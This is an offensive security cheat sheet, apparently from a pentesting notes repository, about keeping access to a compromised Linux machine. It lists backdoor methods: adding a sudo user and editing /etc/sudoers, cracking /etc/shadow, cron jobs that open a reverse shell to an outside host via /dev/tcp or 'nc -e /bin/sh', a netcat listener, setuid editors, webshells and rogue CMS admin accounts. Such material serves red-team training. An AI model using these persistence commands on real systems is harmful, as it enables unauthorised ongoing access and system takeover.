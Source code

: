 # Updates:

| date | name | description | comment | link |
| --- | --- | --- | --- | --- |
| 07/2020 | Windows persistence | 25 techniques for persistence on windows | Windows persistence | [link^](https://pentestlab.blog/methodologies/red-teaming/persistence/) |


# Persistence - Rootkit - Backdoor

So if you manage to compromise a system you need to make sure that you do not lose the shell. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

## Create a new user

The most obvious, but not so subtle way is to just create a new user (if you are root, or someone with that privilege) .

```
adduser pelle
adduser pelle sudo
```

Now if the machine has `ssh` you will be able to ssh into the machine.

On some machines, older Linux I think, you have to do

```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords. This is of course only persistent until the user decides to change his/her password. So not so good.

## SSH key

Add key to existing ssh-account.

## Cronjob NC

Create cronjob that connects to your machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active

```
service crond status
pgrep cron
```

If it is not started you can start it like this

```
service crond status
/etc/init.d/cron start
```

```
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

```
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

Listener

```
nc -lvp 5556
```

Sometimes you have to set the user

```
crontab -e
*/10 * * * * pelle /path/to/binary
```


More here: http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html


## Metasploit persistence module

Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/

If you have a meterpreter shell you can easily just run `persistence`.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.

## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock


## Nmap

If the machine has nmap installed:

https://gist.github.com/dergachev/7916152

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor. 

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```

## References


Read this
https://gist.github.com/dergachev/7916152

This is a creat introduction
http://www.dankalia.com/tutor/01005/0100501002.htm






